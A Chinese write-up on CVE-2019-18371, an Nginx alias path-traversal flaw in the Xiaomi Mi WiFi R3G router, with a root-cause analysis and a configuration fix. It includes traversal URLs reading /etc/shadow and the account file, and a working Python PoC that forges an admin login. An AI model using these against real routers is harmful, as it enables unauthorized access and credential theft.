


# (CVE-2019-18371)Xiaomi Mi WiFi R3G 任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Xiaomi Mi WiFi R3G
- 本文讨论：CVE-2019-18371 Nginx alias前缀穿越读取
- 版本、权限与配置前提：2.28.23-stable之前，未登录；account摘要可计算登录值
- 资料类型：根因/凭据重用链分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- R3G是型号，称3G路由器易误导为蜂窝3G
- 读取所有文件/root权限需进程配置/输出支撑，但比825826多明确Nginx和登录代码
- 脚本硬编码地址、正则无异常/超时；安装Crypto仅未用AES依赖
- local字段修复是配置缓解，不代替厂商固件修复范围
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 版本边界及原GitHub代码对应待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 一、漏洞简介

Xiaomi Mi WiFi R3G是中国小米科技（Xiaomi）公司的一款3G路由器。 Xiaomi Mi WiFi R3G 2.28.23-stable之前版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Xiaomi Mi WiFi R3G 2.28.23-stable之前版本

## 三、复现过程

#### 小米路由器的nginx配置文件错误，导致目录穿越漏洞，实现任意文件读取（无需登录）

nginx配置不当可导致目录穿越漏洞，

```
location /xxx {
  alias /abc/;
}
```

可通过访问`http://domain.cn/xxx../etc/passwd`实现目录穿越访问上级目录及其子目录文件。

在小米路由器的文件`/etc/sysapihttpd/sysapihttpd.conf`中，存在

```
location /api-third-party/download/extdisks {
	alias /extdisks/;
}
```

故可以任意文件读取根目录下的所有文件，而且是root权限，如访问`http://192.168.31.1/api-third-party/download/extdisks../etc/shadow`

[](.resource/CVE-2019-18371XiaomiMiWiFiR3G%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20200904224803971.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904224803971.png `）

[image-20200904224803971](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904224803971.png)


类似的问题，存在多处如

```
location /backup/log {
	alias /tmp/syslogbackup/;
}

location /api-third-party/download/public {
	alias /userdisk/data/;
}
location /api-third-party/download/private {
	alias /userdisk/appdata/;
}
```

#### 通过任意文件读取，登录路由器后台

不是明文存储密码，进行一定分析。关注两个过程，一是登录时前端js生成http post请求参数过程，二是验证用户登陆的后端过程。

登录时前端js生成http post请求参数过程

```
var Encrypt = {
    key: 'a2ffa5c9be07488bbb04a3a47d3c5f6a',
    iv: '64175472480004614961023454661220',
    nonce: null,
    init: function(){
        var nonce = this.nonceCreat();
        this.nonce = nonce;
        return this.nonce;
    },
    nonceCreat: function(){
        var type = 0;
        // 自己的mac地址
        var deviceId = '<%=mac%>';
        var time = Math.floor(new Date().getTime() / 1000);
        var random = Math.floor(Math.random() * 10000);
        return [type, deviceId, time, random].join('_');
    },
    oldPwd : function(pwd){ // oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
        return CryptoJS.SHA1(this.nonce + CryptoJS.SHA1(pwd + this.key).toString()).toString();
    },
  //...
};
```

可知`oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))`，登陆请求包为

```http
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
Host: 192.168.31.1

username=admin&password=c9e62da7b8a0b7a4918c5a90912ba81a9717f9ab&logtype=2&nonce=0_mac地址_时间戳_5248
```

验证用户登陆的后端过程

调用`XQSecureUtil.checkUser`函数

```
function checkUser(user, nonce, encStr)
    -- 从xiaoqiang 配置文件中读取信息
    local password = XQPreference.get(user, nil, "account")
    if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then
        if XQCryptoUtil.sha1(nonce..password) == encStr then
            return true
        end
    end
    XQLog.log(4, (luci.http.getenv("REMOTE_ADDR") or "").." Authentication failed", nonce, password, encStr)
    return false
end
```

跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

`checkUser`函数判断等式为(encStr为参数oldPwd)

```
sha1(nonce + sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
==
sha1(nonce + accountStr)
```

则

```
accountStr == sha1(密码 + 'a2ffa5c9be07488bbb04a3a47d3c5f6a')
```

故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

```http
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
Host: 192.168.31.1

username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248
```

实现任意登陆poc

arbitrary_file_read_vulnerability.py

```
import os
import re
import time
import base64
import random
import hashlib
import requests
from Crypto.Cipher import AES

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

def get_mac():
	## get mac
	r0 = requests.get("http://192.168.31.1/cgi-bin/luci/web", proxies=proxies)
	mac = re.findall(r'deviceId = \'(.*?)\'', r0.text)[0]
	# print(mac)	
	return mac

def get_account_str():
	## read /etc/config/account
	r1 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account", proxies=proxies)
	print(r1.text)
	account_str = re.findall(r'admin\'? \'(.*)\'', r1.text)[0]
	return account_str

def create_nonce(mac):
	type_ = 0
	deviceId = mac
	time_ = int(time.time())
	rand = random.randint(0,10000)
	return "%d_%s_%d_%d"%(type_, deviceId, time_, rand)

def calc_password(nonce, account_str):
	m = hashlib.sha1()
	m.update((nonce + account_str).encode('utf-8'))
	return m.hexdigest()

mac = get_mac()
account_str = get_account_str()
## login, get stok
nonce = create_nonce(mac)
password = calc_password(nonce, account_str)
data = "username=admin&password={password}&logtype=2&nonce={nonce}".format(password=password,nonce=nonce)
r2 = requests.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login", 
	data = data, 
	headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0",
		"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"},
	proxies=proxies)
# print(r2.text)
stok = re.findall(r'"token":"(.*?)"',r2.text)[0]
print("stok="+stok)
```

> 可以获取到登录的stok

[](.resource/CVE-2019-18371XiaomiMiWiFiR3G%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20200904234409100.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904234409100.png `）

[image-20200904234409100](https://www.ol4three.com/2020/09/12/IOT/Exploit/小米/CVE-2019-18371-Xiaomi-Mi-WiFi-R3G-远程命令执行漏洞/image-20200904234409100.png)


## 修复方案

## 任意文件读取

将`/etc/sysapihttpd/sysapihttpd.conf`中的形如以下形式修改为

```
location /xxx {
  alias /abc/;
}
```

修改为

```
location /xxx/ {
  alias /abc/;
}
```

## 参考链接

> https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md